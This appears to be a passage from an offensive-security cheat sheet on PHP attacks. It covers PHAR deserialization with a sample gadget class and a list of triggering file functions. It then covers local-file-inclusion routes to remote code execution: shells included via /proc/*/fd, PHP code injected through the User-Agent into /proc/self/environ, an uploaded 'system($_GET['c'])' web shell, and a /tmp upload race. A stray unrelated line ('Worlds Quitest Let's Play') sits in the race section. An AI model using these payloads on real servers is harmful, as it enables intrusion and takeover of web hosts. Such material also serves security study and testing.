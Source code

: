 ```php
class AnyClass {
    function __destruct() {
        echo $this->data;
    }
}
// output: rips
include('phar://test.phar');
```

NOTE: The unserialize is triggered for the phar:// wrapper in any file operation, `file_exists` and many more.
Some function: `copy`,`file_exists`,`file_get_contents`,`file_put_contents`,`file`,`fileatime`,`filectime`,`filegroup`,`fileinode`,`filemtime`,`fileowner`,`fileperms`,`filesize`,`filetype`,`fopen`,`is_dir`,`is_executable`,`is_file`,`is_link`,`is_readable`,`is_writeable`,`lstat`,`mkdir`,`parse_ini_file`,`readfile`,`rename`,`rmdir`,`stat`,`touch`,`unlink`

Create JPG PHAR IMAGE: https://github.com/kunte0/phar-jpg-polyglot/blob/master/phar_jpg_polyglot.php

Resourse: 

1. https://sec.vnpt.vn/2019/08/ky-thuat-khai-thac-lo-hong-phar-deserialization/ 
2. https://blog.usejournal.com/diving-into-unserialize-phar-deserialization-98b1254380e9 
3. https://www.ixiacom.com/company/blog/exploiting-php-phar-deserialization-vulnerabilities-part-1

## LFI to RCE via /proc/*/fd

1. Upload a lot of shells (for example : 100)
2. Include http://example.com/index.php?page=/proc/$PID/fd/$FD, with $PID = PID of the process (can be bruteforced) and $FD the filedescriptor (can be bruteforced too)

## LFI to RCE via /proc/self/environ

Like a log file, send the payload in the User-Agent, it will be reflected inside the /proc/self/environ file

```powershell
GET vulnerable.php?filename=../../../proc/self/environ HTTP/1.1
User-Agent: <?=phpinfo(); ?>
```

## LFI to RCE via upload

If you can upload a file, just inject the shell payload in it (e.g : `<?php system($_GET['c']); ?>` ).

```powershell
http://example.com/index.php?page=path/to/uploaded/file.png
```

In order to keep the file readable it is best to inject into the metadata for the pictures/doc/pdf

## LFI to RCE via upload (race)
Worlds Quitest Let's Play"
* Upload a file and trigger a self-inclusion.
* Repeat 1 a shitload of time to:
* increase our odds of winning the race
* increase our guessing odds
* Bruteforce the inclusion of /tmp/[0-9a-zA-Z]{6}
* Enjoy our shell.
